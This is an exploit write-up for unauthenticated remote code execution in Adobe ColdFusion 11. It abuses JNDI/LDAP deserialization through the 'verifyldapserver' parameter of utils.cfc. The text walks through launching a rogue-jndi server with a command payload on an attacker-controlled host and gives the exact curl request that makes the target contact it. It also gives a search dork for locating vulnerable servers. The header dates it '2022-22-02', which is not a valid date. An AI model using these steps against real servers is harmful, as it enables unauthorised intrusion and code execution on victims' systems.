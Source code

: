 # Description:
# ColdFusion allows an unauthenticated user to connect to any LDAP server. An attacker can exploit it to achieve remote code execution.
# JNDI attack via the 'verifyldapserver' parameter on the utils.cfc

==================== 1.Setup rogue-jndi Server ====================

https://github.com/veracode-research/rogue-jndi


==================== 2.Preparing the Attack =======================

java -jar target/RogueJndi-1.1.jar --command "touch /tmp/owned" --hostname "attacker_box"

==================== 3.Launch the Attack ==========================


http://REDACTED/CFIDE/wizards/common/utils.cfc?method=verifyldapserver&vserver=LDAP_SERVER&vport=LDAP_PORT&vstart=&vusername=&vpassword=&returnformat=json


curl -i -s -k -X $'GET' \
    -H $'Host: target' \
    --data-binary $'\x0d\x0a\x0d\x0a' \
    $'http://REDACTED//CFIDE/wizards/common/utils.cfc?method=verifyldapserver&vserver=LDAP_SERVER&vport=LDAP_PORT&vstart=&vusername=&vpassword=&returnformat=json'


==================== 4.RCE =======================================

Depend on the target need to compile the rogue-jndi server with JAVA 7 or 8
Can be done by modify the pom.xml as below

<configuration>
<source>7</source>
<target>7</target>
</configuration>
  # Exploit Title: Adobe ColdFusion 11 - LDAP Java Object Deserialization Remode Code Execution (RCE)
# Google Dork: intext:"adobe coldfusion 11"
# Date: 2022-22-02
# Exploit Author: Amel BOUZIANE-LEBLOND (https://twitter.com/amellb)
# Vendor Homepage: https://www.adobe.com/sea/products/coldfusion-family.html
# Version: Adobe Coldfusion (11.0.03.292866)
# Tested on: Microsoft Windows Server & Linux
